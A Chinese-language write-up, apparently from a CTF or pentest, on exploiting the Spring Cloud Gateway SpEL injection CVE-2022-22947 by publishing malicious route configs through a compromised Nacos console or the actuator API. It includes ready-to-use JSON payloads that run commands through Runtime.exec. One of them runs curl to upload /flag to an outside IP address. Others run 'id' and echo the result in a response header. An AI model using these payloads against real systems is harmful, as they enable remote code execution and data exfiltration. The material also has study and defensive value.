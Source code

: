 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了个的jar，反编译查看到了基础的配置，根据配置添加nacos中配置文档，并发布。
![](.topwrite/assets/image_1735374395624.png)
![](.topwrite/assets/image_1735375328478.png)
![](.topwrite/assets/image_1735375352614.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://1.92.88.247:2333','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
predicates是路由匹配规则，uri是转发的地址，这里是backendservice服务名

此时访问/echo/11触发，查看响应头有命令回显结果。





^
^
## **CVE-2022-22947漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

其中发送的添加路由的数据包中的数据段如下：

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

我们可以先理解一下这段POC的含义，其中id字段代表的是路由的ID标识，而filters则是Spring Cloud Gateway中路由配置的过滤器，这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的SpEL表达式，执行了命令`id`，也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（省略...）`

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了。为了验证，我修改了一下POC，将其添加一条路由规则如下：

```
{
    "id": "aaa",
    "order": 0,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/test/**"
        },
        "name": "Path"
      }
    ],"filters": [
{
    "name": "AddResponseHeader",
    "args": {
"name":"result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream())).replaceAll(\"\n\",\"\").replaceAll(\"\r\",\"\")}"}
  }],
    "uri": "http://example.com"
  }
```

发包添加成功：\
![](.topwrite/assets/image_1735375141726.png)

这条路由的含义就是增加了`predicates`来匹配请求的访问路径，当请求访问的路径匹配到了`/test/**`时，则触发该路由，然后再看到filters，跟之前的POC是一样的，最后再注意到`uri`参数，它的作用是当路由匹配到`/test/**`时，将其转发到`http://example.com`上，但注意这是个公网地址，在真实环境利用时应考虑到如果服务器不出网则可能造成路由转发失败。所以当我们访问了 [http://localhost:8080/test/时，路由会帮我们转发到。

接下来刷新一下路由，然后尝试访问一下/test路径看下效果：\
![](.topwrite/assets/image_1735375124789.png)

成功在响应包的头部增加了result字段，且值为我们希望的命令执行的结果。


